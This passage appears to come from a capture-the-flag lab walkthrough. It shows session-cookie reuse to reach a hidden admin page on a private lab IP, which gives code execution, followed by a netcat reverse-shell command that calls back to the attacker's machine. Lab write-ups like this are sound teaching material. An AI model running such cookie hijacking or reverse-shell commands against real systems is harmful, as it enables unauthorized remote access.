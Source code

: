 ![](images/Untitled13.png)

Adding the cookie to our PHPSESSION we can access [http://192.168.26.132/d5fa314e8577e3a7b8534a014b4dcb221de823ad/admin.php](http://192.168.26.132/d5fa314e8577e3a7b8534a014b4dcb221de823ad/admin.php):

![](images/Untitled14.png)

From here we have code execution on the machine:

![](images/Untitled15.png)

Lets get a reverse shell:

```bash
nc -e /bin/sh 192.168.26.128 4444
```

![](images/Untitled16.png)
